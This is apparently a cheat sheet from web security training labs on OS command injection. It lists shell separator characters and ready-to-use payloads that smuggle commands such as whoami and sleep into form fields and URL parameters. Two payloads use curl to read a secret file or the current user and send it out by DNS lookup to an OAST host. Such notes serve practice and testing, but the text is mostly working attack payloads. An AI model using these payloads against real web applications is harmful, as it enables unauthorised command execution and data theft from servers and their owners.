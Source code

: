 ____

The place to find OS Injection is in **Submit Feedback** page, usually in email input, but, just in case, scan the other inputs too

```
 &&
 &
 ||
 |
 ;
 `
 '
 "
 0x0a
 \n
```


```bash
email=carlos@exam.net||curl+`whoami`.OASTIFY.COM||
```

```bash
||$(curl $(cat /home/carlos/secret).OASTIFY.COM)||
```

https://www.youtube.com/watch?v=o7oVWXw4t5E

# OS command injection, simple case

```bash
productId=3&storeId=1;whoami
```

# Blind OS command injection with time delays

```bash
csrf=MHUzDCRAmx3TG1QrDY2ZLHl2jHKiuHJg&name=test&email=test%40test.com||sleep+10||&subject=test&message=test
```

```bash
email=carlos@exam.net||curl+`whoami`.ydfdn9eu9fmqnh4l1jbj2ocr0i68ux.oastify.com||
```